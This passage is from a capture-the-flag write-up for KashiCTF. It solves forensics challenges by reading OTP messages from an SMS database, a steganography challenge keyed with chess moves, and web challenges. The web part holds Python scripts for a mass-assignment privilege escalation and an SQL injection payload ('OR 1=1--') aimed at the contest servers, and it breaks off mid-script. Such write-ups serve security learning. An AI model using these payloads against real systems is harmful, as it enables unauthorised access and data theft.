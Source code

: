 Open mmssms.db file with DB browser and we got this 
![image](https://hackmd.io/_uploads/SkiTyX5qJg.png)
Then browse the sms data in sms table and find for OTP sms
![image](https://hackmd.io/_uploads/HySbem9qkg.png)
**Flag: KashiCTF{839216_1740251608654}
### Do Not Redeem #2
In the first problem, we can see the timestamp of the OTP sms is 1740251608654
![image](https://hackmd.io/_uploads/BJBBhq5qkg.png)
So it gonna be 02:13(in my time display) and we can find there's only 5 package updated after that sussy OTP
![image](https://hackmd.io/_uploads/B1dqhqcq1x.png)
Then i give it a try to take a closer look on calendar(41kb really????) and that package got changed before the Amazon package so that's getting more sussy
So i submited the flag and it's correct.
**Flag: KashiCTF{com.google.calendar.android}**
### Stego Gambit
This problem actually easy but it wasted me alot of time
So here's the given image from the chall
![chall (3)](https://hackmd.io/_uploads/BJzgC9qqkx.jpg)
So first i import the picture into HxD and found something in the header 
![image](https://hackmd.io/_uploads/SJFSkjq91e.png)
```Use the moves as a key to the flag, separated by _```
To find the moves, we just need to make the similar board on lichess and just leave the bot playing it(actually if white move first that's impossible because it's already check)
![image](https://hackmd.io/_uploads/HJtUA5c9ye.png)
So 2 moves gonna be ```1. Bh1 Kxa2 2. Qg2#```
**Key: Bh1Kxa2_Qg2#**(i keep spamming Bh1_Kxa2_Qg2# freak)
With that pro key moment we gonna use steghide to extract something in image
![image](https://hackmd.io/_uploads/rJoIxs99yx.png)
**Flag: KashiCTF{573g0_g4m617_4cc3p73d}**
# Web
### SuperFastApi
```python=
import requests

url = "http://kashictf.iitbhucybersec.in:10628"
data = {
  "fname": "3HLD",
  "lname": "string",
  "email": "string",
  "gender": "string",
  "role": "admin"
}
res = requests.post(url+'/create/3HLD',json=data)
print(res.text)
res = requests.put(url+'/update/3HLD',json=data)
res = requests.get(url+'/flag/3HLD')
print(res.text)
# {"message":"KashiCTF{m455_4551gnm3n7_ftw_F1t1dzlov}"}
```
**Flag :  KashiCTF{m455_4551gnm3n7_ftw_F1t1dzlov}**
### Corporate Life 1
```python=
import requests

url = "http://kashictf.iitbhucybersec.in:38209/api/list-v2"

data = {
    'filter' :   "'OR 1=1--"
```